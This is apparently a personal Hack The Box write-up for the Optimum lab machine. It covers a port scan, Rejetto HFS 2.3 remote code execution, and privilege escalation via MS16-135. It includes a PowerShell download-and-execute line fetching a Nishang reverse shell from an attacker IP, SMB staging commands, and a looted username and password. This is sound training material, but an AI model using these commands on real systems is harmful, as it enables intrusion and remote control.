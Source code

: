 
# Enumeration 

## open ports
```
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
# Foothold 
we got HFS version
HttpFileServer httpd 2.3
![[Pasted image 20230129050935.png]]

the script from searchsploit isn't really working so going to search for github bone
[Rejetto RCE to rev shelll](https://raw.githubusercontent.com/NullByte007/Exploits/master/Rejetto_HFS_2.3.X_RCE/HFS_RCE.py)
`python3 HFS_RCE.py  -lh 10.10.16.5 -lp 9001 -rh $ip -rp 80 -hid 0.352156891487539`
![[Pasted image 20230129051946.png]]

# Privesc 
running winpeas
![[Pasted image 20230129052915.png]]

using windows-exploit-suggester.py 
first we copy output of systeminfo command
then we past it inside a file 

```
./windows-exploit-suggester.py --update # download database
./windows-exploit-suggester.py --database 2023-01-12-mssb.xls --systeminfo sysinfo 
```
![[Pasted image 20230129055611.png]]
using windows-kernel-exploits repo from github
[MS16-135](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/MS16-135.ps1)

start smb server and upload our exploit
```
smbserver.py share . -smb2support
copy \\10.10.16.5\share\ms16.ps1
```
![[Pasted image 20230129060001.png]]
using nishang reverse shell  and adding this line at the end![[Pasted image 20230129063821.png]]
`IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/inv.ps1')`
`[Environment]::Is64BitProcess`
![[Pasted image 20230129063917.png]]
![[Pasted image 20230129064037.png]]

# Loot
kostas creds:
	username: kostas
	password: kdeEjDowkS*


---
Tags: #ctf #htb #ms16-135
Resources: [Optimum](https://app.hackthebox.com/machines/6)